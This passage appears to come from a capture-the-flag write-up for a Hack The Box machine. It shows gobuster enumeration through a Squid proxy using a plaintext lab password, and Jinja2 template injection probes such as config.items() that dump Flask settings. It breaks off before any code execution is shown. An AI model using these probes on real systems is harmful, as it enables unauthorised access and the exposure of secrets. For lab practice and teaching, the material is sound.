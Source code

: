 ##### gobuster
gobuster (notice that we have to URL-encode some characters in order to get a valid userinfo )
```bash
❯ gobuster dir -u http://127.0.0.1 --proxy 'http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@10.129.225.107:3128' -w /usr/share/wordlists/dirb/common.txt

/app                  (Status: 301) [Size: 185] [--> http://127.0.0.1/app/]

❯ gobuster dir -u http://127.0.0.1/app --proxy 'http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@10.129.225.107:3128' -w /usr/share/wordlists/dirb/common.txt
❯ gobuster dir -u http://127.0.0.1/app --proxy 'http://lance.friedman:o%3EWJ5-jD%3C5%5Em3@10.129.225.107:3128' -w /usr/share/wordlists/dirb/common.txt -x py

/app.py               (Status: 200) [Size: 748]
```

### app.py
```bash
curl --proxy http://lance.friedman:o\>WJ5-jD\<5\^m3@$IP:3128 http://127.0.0.1/app/app.py
```

### SSTI
```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{7*7}}"}' http://flustered.htb

<title>49 - Coming Soon</title>
```

```python
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
>>> import requests
>>> res = requests.post('http://flustered.htb', json={"siteurl": "{{8*8}}"})
>>> print(res.text)

    <html>
    <head>
    <title>64 - Coming Soon</title>...
    </html>
```

### RCE
Let try Jinja2 first since it is used by Python Web Frameworks such as Django or Flask. The above injections have been tested on a Flask application.

```bash
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{config.items()}}"}' http://flustered.htb
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{settings.SECRET_KEY}}"}' http://flustered.htb
curl -H 'Content-Type: application/json' -d '{"siteurl":"{{7*\"7\"}}"}' http://flustered.htb

<title>dict_items([(&#39;ENV&#39;, &#39;production&#39;), (&#39;DEBUG&#39;, False), (&#39;TESTING&#39;, False), (&#39;PROPAGATE_EXCEPTIONS&#39;, None), (&#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;, None), (&#39;SECRET_KEY&#39;, None), (&#39;PERMANENT_SESSION_LIFETIME&#39;, datetime.timedelta(days=31)), (&#39;USE_X_SENDFILE&#39;, False), (&#39;SERVER_NAME&#39;, None), (&#39;APPLICATION_ROOT&#39;, &#39;/&#39;), (&#39;SESSION_COOKIE_NAME&#39;, &#39;session&#39;), (&#39;SESSION_COOKIE_DOMAIN&#39;, None), (&#39;SESSION_COOKIE_PATH&#39;, None), (&#39;SESSION_COOKIE_HTTPONLY&#39;, True), (&#39;SESSION_COOKIE_SECURE&#39;, False), (&#39;SESSION_COOKIE_SAMESITE&#39;, None), (&#39;SESSION_REFRESH_EACH_REQUEST&#39;, True), (&#39;MAX_CONTENT_LENGTH&#39;, None), (&#39;SEND_FILE_MAX_AGE_DEFAULT&#39;, datetime.timedelta(seconds=43200)), (&#39;TRAP_BAD_REQUEST_ERRORS&#39;, None), (&#39;TRAP_HTTP_EXCEPTIONS&#39;, False), (&#39;EXPLAIN_TEMPLATE_LOADING&#39;, False), (&#39;PREFERRED_URL_SCHEME&#39;, &#39;http&#39;), (&#39;JSON_AS_ASCII&#39;, True), (&#39;JSON_SORT_KEYS&#39;, True), (&#39;JSONIFY_PRETTYPRINT_REGULAR&#39;, False), (&#39;JSONIFY_MIMETYPE&#39;, &#39;application/json&#39;), (&#39;TEMPLATES_AUTO_RELOAD&#39;, None), (&#39;MAX_COOKIE_SIZE&#39;, 4093)]) - Coming Soon</title>
```
